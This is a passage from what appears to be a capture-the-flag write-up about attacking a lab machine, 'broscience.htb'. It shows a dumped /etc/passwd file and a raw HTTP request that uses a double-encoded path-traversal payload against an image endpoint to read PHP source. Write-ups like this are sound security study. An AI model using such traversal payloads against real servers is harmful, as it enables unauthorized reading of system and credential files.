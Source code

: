 ```http
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
tss:x:103:109:TPM software stack,,,:/var/lib/tpm:/bin/false
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:105:111:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:106:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:107:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
sshd:x:108:65534::/run/sshd:/usr/sbin/nologin
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
avahi:x:110:116:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
speech-dispatcher:x:111:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
pulse:x:112:118:PulseAudio daemon,,,:/run/pulse:/usr/sbin/nologin
saned:x:113:121::/var/lib/saned:/usr/sbin/nologin
colord:x:114:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:115:123::/var/lib/geoclue:/usr/sbin/nologin
Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false
bill:x:1000:1000:bill,,,:/home/bill:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
postgres:x:117:125:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```

I tried using PHP filters to extract the source code of the application. The code was probably adding a folder name before the file name, so that failed.

I tried to directly read a PHP file without a filter.

```http
GET /includes/img.php?path=..%252findex.php HTTP/1.1
Host: broscience.htb
Cookie: PHPSESSID=6drat5f8omo5h6l5hmjinrcdai
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```
